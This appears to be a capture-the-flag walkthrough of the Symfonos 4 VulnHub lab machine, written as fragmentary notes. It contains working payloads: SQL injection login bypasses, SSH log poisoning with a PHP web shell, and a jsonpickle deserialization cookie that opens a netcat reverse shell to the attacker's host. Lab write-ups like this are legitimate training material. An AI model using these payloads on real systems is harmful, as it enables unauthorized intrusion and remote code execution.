

# Symfonos 4 - VulnHub VM

## Port 80 HTTP

- Running Apache 2.4.38 (Nmap scan)

Login page


Gobuster found */gods* dir:


Login SQL Injection:

>username=test' AND (SELECT 7385 FROM (SELECT(SLEEP(10)))JQgQ) AND 'uGtK'='uGtK&password=test

The following username bypasses the login query:

>admin' or '1'='1' AND '

Logs in to sea.php file which allows us to select a file located inside */gods*, these are the .log files for all the gods.

LFI or RFI?

SSH log file poisoning:

Sign in using evil username to infect readable code at */var/log/auth*

```
disastrpc symfonos4 λ ssh -oHostKeyAlgorithms=+ssh-dss '<?php system($_GET["cmd"]);?>'@10.1.62.41
<?php system($_GET["cmd"]);?>@10.1.62.41's password:                    
Permission denied, please try again.                                    
<?php system($_GET["cmd"]);?>@10.1.62.41's password: 
```




## Local Enumeration

Interesting files inside */opt/code*

Interesting pspy32 procs:
- /usr/sbin/phpquery
- /usr/lib/phpsessionclean
```
udp             UNCONN           0                0                                0.0.0.0:68                             0.0.0.0:*              
tcp             LISTEN           0                80                             127.0.0.1:3306                           0.0.0.0:*              
tcp             LISTEN           0                128                            127.0.0.1:8080                           0.0.0.0:*              
tcp             LISTEN           0                128                              0.0.0.0:22                             0.0.0.0:*              
tcp             LISTEN           0                128                                    *:80                                   *:*              
tcp             LISTEN           0                128                                 [::]:22                              [::]:* 
```

whoami.html template:
```
<link href="{{ url_for('static', filename='css/bootstrap.min.css') }}" rel="stylesheet">


    <div class="container">
        <br />
        <br />
        <h2>Cookie set: {{ username }}</h2>
        <a href="/">Main page</a>
    </div>

```

Fingerprinting shows server is running gunicorn, it also takes a cookie which is base64 encoded. 
```
www-data@symfonos4:/tmp$ printf "GET / HTTP/1.0\r\n\r\n" | nc -nv 127.0.0.1 8080
(UNKNOWN) [127.0.0.1] 8080 (http-alt) open
HTTP/1.0 302 FOUND
Server: gunicorn/19.9.0
Date: Thu, 19 Nov 2020 17:38:55 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 221
Location: http://127.0.0.1:8080/whoami
Set-Cookie: username=eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiAiUG9zZWlkb24ifQ==; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/whoami">/whoami</a>.  If not click the link.
```

Cookie, which translates to a json object:
```
disastrpc html λ echo 'eyJweS9vYmplY3QiOiAiYXBwLlVzZXIiLCAidXNlcm5hbWUiOiAiUG9zZWlkb24ifQ==' |  base64 --decode
{"py/object": "app.User", "username": "Poseidon"}
```

## Insecure Serialization Bug


Bad request:
```
GET / HTTP/1.1
Host: 10.1.62.41:4444
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=2l0bablbr9kq6tssiauoopvnt3; username=CnsicHkvb2JqZWN0IjoiX19tYWluX18uU2hlbGwiLCJweS9yZWR1Y2UiOlt7InB5L2Z1bmN0aW9u%20Ijoib3Muc3lzdGVtIn0sWyIvdXNyL2Jpbi9uYyAtZSAvYmluL3NoIDE5Mi4xNjguMC4yNSA1NTU1%20Il0sIDAsIDAsIDBdfQoxCgkKeyJweS9vYmplY3QiOiJfX21haW5fXy5TaGVsbCIsInB5L3JlZHVj%20ZSI6W3sicHkvZnVuY3Rpb24iOiJvcy5zeXN0ZW0ifSxbIi91c3IvYmluL25jIC1lIC9iaW4vc2gg%20MTAuMS42Mi4zMyA0MDQwIl0sIDAsIDAsIDBdfQo=
Upgrade-Insecure-Requests: 1
```

    
{"py/object":"__main__.Shell","py/reduce":[{"py/function":"os.system"},["/usr/bin/nc -e /bin/sh 10.1.62.33 4040"], 0, 0, 0]}

eyJweS9vYmplY3QiOiJfX21haW5fXy5TaGVsbCIsInB5L3JlZHVjZSI6W3sicHkvZnVuY3Rpb24iOiJvcy5zeXN0ZW0ifSxbIi91c3IvYmluL25jIC1lIC9iaW4vc2ggMTAuMS42Mi4zMyA0MDQwIl0sIDAsIDAsIDBdfQo=